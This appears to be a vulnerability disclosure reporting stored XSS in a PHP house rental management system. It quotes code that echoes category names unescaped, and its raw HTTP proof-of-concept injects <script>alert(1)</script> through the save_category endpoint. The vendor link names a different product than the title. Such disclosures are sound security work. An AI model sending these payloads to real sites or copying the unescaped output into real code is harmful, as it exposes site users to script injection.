 #### BUG_AUTHOR：tangling

## House Rental Management system - Storage XSS on (rental/manage_categories.php)

### Vendor Homepage:

https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html

### Version:V1.0

#### Tested on: PHP, Apache, MySQL

#### Affected Page:http://localhost/index.php?page=categories

#### Source code(rental/manage_categories.php【39】）

`27        <tbody>`
`28         <?php` 
`29         $i = 1;`
`30         $category = $conn->query("SELECT * FROM categories order by id asc");`
`31         while($row=$category->fetch_assoc()):`
`32         ?>`
`33         <tr>`
`34          <td class="text-center"><?php echo $i++ ?></td>`
`35          <td class="">`
`36           <p><?php echo $row['name'] ?></p>`
`37          </td>`
`38          <td class="text-center">`
`39           <button class="btn btn-sm btn-primary edit_category" type="button" data-id="<?php echo $row['id'] ?>"  data-name="<?php echo $row['name'] ?>" >Edit</button>`
`40           <button class="btn btn-sm btn-danger delete_category" type="button" data-id="<?php echo $row['id'] ?>">Delete</button>`
`41          </td>`
`42         </tr>`
`43         <?php endwhile; ?>`
`44        </tbody>`
`45       </table>`
`46      </div>`
`47     </div>`
`48    </div>`
`49    <!-- Table Panel -->`
`50   </div>`
`51  </div>`

#### POC:

`POST /ajax.php?action=save_category HTTP/1.1`
`Host: localhost`
`accept: */*`
`accept-language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6`
`cache-control: no-cache`
`content-type: multipart/form-data; boundary=----WebKitFormBoundaryuRsUvl5QwYB9x9tV`
`pragma: no-cache`
`sec-ch-ua: "Microsoft Edge";v="131", "Chromium";v="131", "Not_A Brand";v="24"`
`sec-ch-ua-mobile: ?0`
`sec-ch-ua-platform: "Windows"`
`sec-fetch-dest: empty`
`sec-fetch-mode: cors`
`sec-fetch-site: same-origin`
`x-requested-with: XMLHttpRequest`
`referer: http://localhost/index.php?page=categories`
`referrer-policy: strict-origin-when-cross-origin`
`Content-Length: 238`

`------WebKitFormBoundaryuRsUvl5QwYB9x9tV`
`Content-Disposition: form-data; name="id"`


`------WebKitFormBoundaryuRsUvl5QwYB9x9tV`
`Content-Disposition: form-data; name="name"`

<script>alert(1)</script>
`------WebKitFormBoundaryuRsUvl5QwYB9x9tV--`







